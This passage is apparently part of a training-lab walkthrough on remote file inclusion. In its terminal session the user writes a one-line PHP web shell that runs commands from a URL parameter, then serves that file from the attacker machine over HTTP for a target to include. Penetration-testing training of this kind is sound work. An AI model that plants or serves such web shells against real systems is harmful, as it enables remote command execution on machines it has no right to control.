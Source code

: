 ![Firefox - RFI 1](./assets/screenshots/file_inclusion_rfi_1.png)

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ugek9vhucv]─[~]
└──╼ [★]$ ifconfig tun0

[SNIP]

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.15.180  netmask 255.255.254.0  destination 10.10.15.180

┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ugek9vhucv]─[~]
└──╼ [★]$ echo '<?php system($_GET["cmd"]); ?>' | tee shell.php

<?php system($_GET["cmd"]); ?>

┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ugek9vhucv]─[~]
└──╼ [★]$ sudo python3 -m http.server 8080

Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...

[CONTINUE]
```

![Firefox - RFI 2](./assets/screenshots/file_inclusion_rfi_2.png)
